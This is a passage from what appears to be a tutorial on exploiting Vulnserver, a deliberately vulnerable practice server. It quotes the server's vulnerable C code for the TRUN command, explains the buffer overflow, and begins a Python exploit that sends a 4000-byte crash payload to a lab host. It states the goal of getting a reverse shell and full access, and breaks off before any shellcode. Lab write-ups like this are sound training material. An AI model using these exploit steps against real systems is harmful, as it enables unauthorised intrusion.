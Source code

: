 ```c
    } else if (strncmp(RecvBuf, "TRUN ", 5) == 0) {
        char *TrunBuf = malloc(3000);
        memset(TrunBuf, 0, 3000);
        for (i = 5; i < RecvBufLen; i++) {
            if ((char)RecvBuf[i] == '.') {
                strncpy(TrunBuf, RecvBuf, 3000); // <----------- vulnerable function
                Function3(TrunBuf);
                break;
            }
        }
```
It's taking user input, 3000 bytes, and copying it into the `TrunBuf` buffer, since this function doesn't properly handle user input, it allows for the buffer overflow vulnerability.

You can read more about vulnerable vs. secure c functions here:

- [https://rules.sonarsource.com/c/type/Vulnerability/RSPEC-1081](https://rules.sonarsource.com/c/type/Vulnerability/RSPEC-1081)

Properly handling user input via the TRUN command in this application can work as a mitigation for this vulnerability.

Now that we have an understanding that this application is vulnerable, let's get into exploiting it, and obtaining a reverse shell and complete access to the victim system.

## Running vulnserver

Start running the vulnserver application, make sure your firewall is configured to allow this local connection. 

![vulnserver 1](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver1.png)

First, a basic nc connection to the victim machine on port 9999 shows that Vulnserver is actively running.

![vulnserver 2](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver2.png)

Use Immunity debugger and attach the running vulnserver application to it, this will allow you to monitor and fully get a grasp on the application being exploited.

![vulnserver 3](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/vulnserver/vulnserver3.png)

## Crash the application with Python

With the vulnserver application running on port 9999 on the victim host target, you can use a basic python socket connection to send data to this command.

```python
import socket

victim_host = "10.0.0.161"
port = 9999

payload = "A" * 4000    # data to crash the application
buffer_exploit = "TRUN /.:/" + payload # the command to community with our application
```
